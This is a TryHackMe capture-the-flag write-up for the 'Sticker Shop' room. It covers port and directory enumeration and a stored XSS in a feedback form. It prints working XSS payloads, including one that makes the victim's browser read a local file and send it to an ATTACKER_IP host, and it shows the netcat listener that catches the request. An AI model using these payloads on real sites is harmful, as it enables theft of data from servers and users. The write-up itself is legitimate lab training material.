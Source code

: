 This is a TryHackMe CTF room. 
"Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!"

## Enumeration 
started VM with the IP `http://10.10.27.75:8080`. the goal is to get the flag at `http://TARGET_IP:8080/flag.txt`
Started GoBuster using the medium dir list.
```
gobuster dir -u http://10.10.27.75:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.27.75:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/view_feedback        (Status: 401) [Size: 25]
Progress: 220560 / 220561 (100.00%)
```
then scanned all ports on the target machine.
```
sudo nmap -sS -sV -T5 -vv 10.10.27.75 -allports

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http-proxy syn-ack ttl 61 Werkzeug/3.0.1 Python/3.8.10
```
I then cURL'd the target to review the code and found a submit feedback link.
```
<header>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/submit_feedback">Feedback</a></li>
        </ul>
    </header>
```
Further investigating reveals that the submit uses a POST method; potential entry point. I tried to go straight to the flag.txt and get a "401 Unauthorized"

Going straight to /submit_feedback shows:
![CTF Write-ups/Pasted image 20241229221603.png](https://github.com/MrGallifrey912/Hacking-Resources/blob/main/CTF%20Write-ups/Pasted%20image%2020241229221603.png))
So this shows me that I can potentially exploit the text input.

## Exploring potentials
so there are a couple train of thoughts I considered looking for using BurpSuite and DevTools.
* session cookies
* weird headers
* hidden directories

There are no session cookies or weird headers that stick out to me. However I did discover a /view_feedback directory.  This turned out to be behind a 401 unauthorized response, I don't feel this is relevant.

I tried to validate XSS by submitting a basic script tag to alert XSS. This did not prove to work and sent me down a couple other methods of exploitation that were not promising. I used python to create a couple scripts to group and automate some of these tasks, including:
* Cross-Site Request Forgery (CSRF)
* Insecure Direct Object References (IDOR)
* Local File Inclusion (LFI) or Remote File Inclusion (RFI)
* Reflective File Access
None of these seemed to bare fruit and I started to feel XSS was the answer and started researching potential payloads since the delivery method has to be the text input.

# XSS Exploitation
I determined that XSS had to be the exploit to get the flag, but how? I researched some payloads, I kept getting some basic ones that did not work, I didn't find them though I am sure they exist and I admit I didn't look to hard. I found a write-up on this specific box with the answer obfuscated and skimmed it. 

I would have never got this without help. the payload seems more complicated than I would have been able to write or even find. So the test payload looks like this:

```
<img src=x onerror="fetch('http://ATTACKER_IP:PORT')"/>
```

The payload works as a basic XSS attack. what happens is:
* `<img/>` tag is inserted with the source of x(`src="x"`). Because the source is invalid you need an `onerror` event
* `"fetch()"`: is used to call API's I believe. in this case we are going to insert our attacking ip(`'http://ATTACKER_IP:PORT'`) 
* `PORT`: the port you assign in a netcat listener

This needs to be submitted in the text input once you have a netcat listener setup on a specified port, I used:

```
nc -knvlp 8000
listening on [any] 8000 ...
```

Once listening you can submit the above payload. it will take a second or two to receive a response:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 56902
GET / HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

This proves XSS can be achieved. the payload to now get the flag is:

```
<img src="x" onerror="fetch('http://127.0.0.1:8080/flag.txt').then(r => r.text()).then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r)).catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"/>
```

Okay so lets break this down before submitting, first I had to initiate another listener before submitting. This payload can be parsed as such:
* `"fetch('127.0.0.1:8080/flag.txt')`: This makes a request to the local server of the Target_Machine and 127.0.0.1 is the loopback address. If the flag is stored in a file, this attempts to retrieve its contents.
* `.then(r => r.text())`: If the content in the flag is fetched, the `.text()` method extracts the contents as text.
* `.then(r => fetch('http://ATTACKER_IP:PORT/?c=' + r))`: This section sends the contents to your listener by appending the contents of the flag as a query parameter (`?c=<flag content>`).
* `.catch(e => fetch('http://ATTACKER_IP:PORT/?c=' + e))"`: This catches any errors if for any reason the request to the flag fails. `catch` sends any errors to the attacker, using the (`?c=<error message>`) again.

So with your listener back up and running, submit the final payload. You should see:

```
nc -knvlp 8000
listening on [any] 8000 ...
connect to [THM_VPN_IP] from (UNKNOWN) [10.10.27.75] 45532
GET /?c=THM{█████████████████████████████████████████} HTTP/1.1
Host: THM_VPN_IP:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gec HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

# Summary

* XSS was the vector of exploitation due to the application allowing a user to inject and execute arbitrary JavaScript in the browser.
* I leveraged JavaScript's `fetch()` method to access the flag located on the victims local server and exfil the contents.
* The payload executed successfully due to the lack of input sanitization or proper output encoding by the application, if these measures were in place this would not be an attack vector.

# Conclusion
I did not write or create the payload but after further research I can see how it was put together. Huge shoutout to Jay Bhatt's medium post that provided the payload and a much more concise walkthrough of The Sticker Store box on THM. I personally thought I could exploit a different way and narrowed down to XSS. I worked through my own process till I hit a wall and sought assistance.

Tools used:
* GoBuster
* Nmap
* Burpsuite
* cURL
* NetCat
* Python3
